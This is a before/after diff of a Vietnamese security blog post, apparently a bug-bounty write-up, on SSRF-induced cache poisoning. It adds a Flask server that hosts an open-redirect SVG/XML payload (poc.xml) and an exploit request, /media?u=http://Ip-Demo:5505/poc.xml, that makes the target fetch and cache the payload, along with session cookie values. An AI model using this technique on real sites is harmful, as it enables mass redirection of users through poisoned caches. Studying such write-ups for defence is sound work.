

Before and after one commit to thewindghost/thewindghost.github.io, a Markdown page: posts/SSRF-induced-Cache-Poisoning-Logic-Bug.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/posts/SSRF-induced-Cache-Poisoning-Logic-Bug.md
+++ b/posts/SSRF-induced-Cache-Poisoning-Logic-Bug.md
@@ -43,9 +53,25 @@ date: 2025-05-04 10:15:00
 </svg>
 ```
 
-### 3.2 Python Flask Demo
+`Payload` này được sử dụng cho việc tiến hành tấn công `Open Redirect` tới `Server Attacker`, nghe có vẻ `low-impact` nhỉ ? Nhưng quan trọng cái họ quan tâm làm thế nào để `Payload` này save vào `Cache` và gây ra tấn công Hàng Loạt mà thôi!
+
+Note: Nãy giờ có nhiều bạn hơi thắc mắc tại sao mà mình đưa `Payload` vào được phải không, bởi vì lỗ hổng `SSRF` đã `Fetch` tới `Server Attacker` và bê toàn bộ `Payload` từ File `Poc.xml` của mình về `Response` của `Server`.
+
+![alt text](/posts/image-post/cache-poisoning-via-fetching-data/6.png)
+
+---
+## 4. POC Cache Poisoning Thật Sự !
+
+Có lẻ đã hoàn toàn xong ? Vâng đúng vậy chắc chắn đã xong rồi nhưng làm thế nào mình khẳng định cho họ rằng nó thật sự nghiêm trọng ?
+
+Tiến hành di chuyển sang `VPS Server` để đào sâu hơn. Mình đã tự viết 1 Web với `Python Flask` như sau để đào sâu và tăng impact từ `P4 -> P3`
+
+---
+
+tạo app.py và file poc.xml cùng thư mục và chạy server
 
 ```python
+- Code Cần thêm vào
 from flask import Flask, make_response
 import os
 
@@ -56,12 +82,28 @@ def serve_svg_as_xml():
     file_path = os.path.join(os.getcwd(), 'poc.xml')
     if os.path.exists(file_path):
         with open(file_path, 'rb') as f:
-            resp = make_response(f.read())
-            resp.headers.set('Content-Type', 'image/svg+xml')
-            return resp
-    return "File poc.xml not found!", 404
+            response = make_response(f.read())
+            response.headers.set('Content-Type', 'image/svg+xml')
+            return response
+    else:
+        return "File poc.xml not found!", 404
 
 if __name__ == '__main__':
-    app.run(host='0.0.0.0', port=5505, debug=False)
+    app.run(debug=False, host='0.0.0.0', port=5505)
+```
+---
+
+```http
+- Request ở Repeater
+GET /media?u=http://Ip-Demo:5505/poc.xml HTTP/2
+Host: VulnWeb.com
+Cookie: _learn_session_adhoc=23bd7501d7eb466a35f70e1bfe50adde; _ga=GA1.1.165183293.1744628537; _ga_L9HT5MZ3HD=GS1.1.1744628536.1.0.1744629162.60.0.0; _ga_Z6QQP1041C=GS1.1.1744628539.1.0.1744629162.60.0.0
+Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8" Sec-Ch-Ua-Mobile: ?0 Sec-Ch-Ua-Platform: "Windows" Accept-Language: en-US,en;q=0.9
+Upgrade-Insecure-Requests: 1
+User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 Sec-Fetch-Site: none Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1
+Sec-Fetch-Dest: document
+Accept-Encoding: gzip, deflate, br
+Priority: u=0, i
 ```
 
````
Also changed, not shown: other parts of posts/SSRF-induced-Cache-Poisoning-Logic-Bug.md (+50 -39 lines).
